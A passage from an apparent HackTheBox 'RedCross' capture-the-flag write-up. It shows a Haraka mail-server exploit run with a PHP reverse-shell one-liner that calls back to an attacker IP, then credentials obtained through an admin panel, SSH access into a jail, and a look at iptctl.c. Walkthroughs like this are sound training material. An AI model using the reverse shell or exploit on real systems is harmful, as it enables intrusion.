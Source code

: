 We look for exploits

```sh
searchsploit haraka
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:32:34.png)

The only change we did on the exploit was on line 123, it was trying to connect on port 25, the correct is 1025 in this case.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:37:09.png)

Now, we execute and get a shell

```sh
python 41162.py -c "php -r '\$sock=fsockopen(\"10.10.14.20\",443);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" -t penelope@redcross.htb -m 10.10.10.113
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:37:41.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:38:44.png)

## Path 2: www-data

We can access the other panel of the admin page and see what we have there

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:40:44.png)

We add a new user

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:40:55.png)

We got credentials

**0x4rt3mis : xL0ohUnj**

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:41:04.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:41:20.png)

We try ssh on the box

Got it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:41:49.png)

We are in a jail

For now, the only interesting thing I can find is in /home/public/src/iptctl.c

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2008:42:51.png)

We can see the string "DEBUG: All checks passed… Executing iptables" and "Network access granted to %s\n". it looks like this program is being called when I submit anything to the page, obsvisously I'll not have access to the php source code to analyze it. But we can send it to burp and see how it's being used.
